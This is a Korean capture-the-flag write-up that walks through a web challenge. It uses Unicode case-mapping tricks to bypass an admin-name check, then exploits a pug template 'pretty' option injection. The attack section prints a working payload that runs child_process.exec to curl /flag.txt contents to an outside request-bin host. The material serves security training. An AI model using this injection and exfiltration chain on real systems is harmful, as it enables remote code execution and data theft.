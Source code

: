 1. 웹페이지 접속
 

웹페이지 접속 (1)
웹페이지 접속 (1)
 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.

 

웹페이지 접속 (1)
웹페이지 접속 (2)
 

 

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.

 

웹페이지 접속 (1)
웹페이지 접속 (3)
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.

 

웹페이지 접속 (1)
웹페이지 접속 (4)
 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

2. 소스코드 분석
 

2.1. /login
 

웹페이지 접속 (1)
소스코드 분석 (1)
 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 

웹페이지 접속 (1)
소스코드 분석 (2)
 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

2.2. /edit
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.

 

웹페이지 접속 (1)
소스코드 분석 (3)
 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

https://github.com/pugjs/pug/issues/3312

 
Code injection vulnerability in visitMixin and visitMixinBlock through "pretty" option · Issue #3312 · pugjs/pug

Hello, I found that pug may allow an attacker to inject arbitrary javascript code if an attacker can control options.pretty. Pug Version: 3.0.0 Proof of concept Here is an vulnerable example includ...

github.com
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

 

3. 공격 시나리오
 

1)  BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 

4. 공격 과정
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 
strtoupper() – blog.rubiya.kr

해당 문서는 위의 트윗을 보고 추가적인 연구를 진행해 Theori 내부 세미나에서 발표한 결과물이다.(사장님 허락받고 올린다) (%C4%B1) 는 LATIN SMALL LETTER DOTLESS I를, (%E2%84%AA) KELVIN SIGN을, (%C5%BF) 는 LATI

blog.rubiya.kr
 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 


ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
 

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 

웹페이지 접속 (1)
공격 과정 (1)
 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 

웹페이지 접속 (1)
공격 과정 (2)
 

 

웹페이지 접속 (1)
공격 과정 (3)
 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 


// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
 

웹페이지 접속 (1)
공격 과정 (4)
 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 

웹페이지 접속 (1)
공격 과정 (5)
 

 

 

웹페이지 접속 (1)
공격 과정 (6)
 

 

5. Reference
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
